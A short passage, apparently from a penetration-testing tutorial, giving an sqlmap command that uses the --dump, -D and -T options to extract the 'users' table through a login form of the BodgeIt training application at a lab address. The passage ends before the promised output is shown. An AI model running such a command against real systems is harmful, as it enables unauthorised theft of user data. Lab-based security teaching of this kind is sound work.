![](img/00152.jpeg)

To extract all the data from certain tables, we use the `--dump` option plus `-D`, to specify the database and `-T`, to specify the table:

```

sqlmap -u http://10.7.7.5/bodgeit/login.jsp --data "username=23&password=23" -D public -T users -dump

```

Let's look at an example of the output:

